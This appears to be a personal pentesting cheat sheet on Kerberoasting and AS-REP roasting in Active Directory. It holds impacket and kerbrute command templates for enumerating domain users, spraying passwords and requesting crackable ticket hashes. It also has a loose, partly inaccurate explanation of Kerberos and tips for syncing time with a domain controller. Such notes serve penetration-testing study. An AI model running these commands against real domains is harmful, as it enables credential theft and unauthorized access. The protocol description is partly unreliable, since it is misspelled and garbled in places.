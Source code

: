 # Kerberoas

---
# Navigation
- **[[#Definition]]**
- **[[#Kerberoasting]]**
	- [[#Kerbrute]]
	- [[#Kerberoasting]] 
- **[[#Synchronizing time is important]]**
- **[[#Further reading]]**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
- If a user's `UserAccountControl` settings have "Do not require kerberoas preauthentication" enabled,it's possible to grab user's crackable AS-REP and brute-force it online.
- With sufficient rights `GenericWrite` or `GenericAll`,preauth can be forced disabled as well.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method (my recommendation)
sudo apt install rdate
sudo rdate -n <DC>

#Third method 
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>

#Fourth method (xct notes)
sudo date -s "$(curl -sI <Target> | grep -i '^date:'|cut -d' ' -f2-)"
```
 # Further reading
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- Explained -> [**Kerberoasting**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

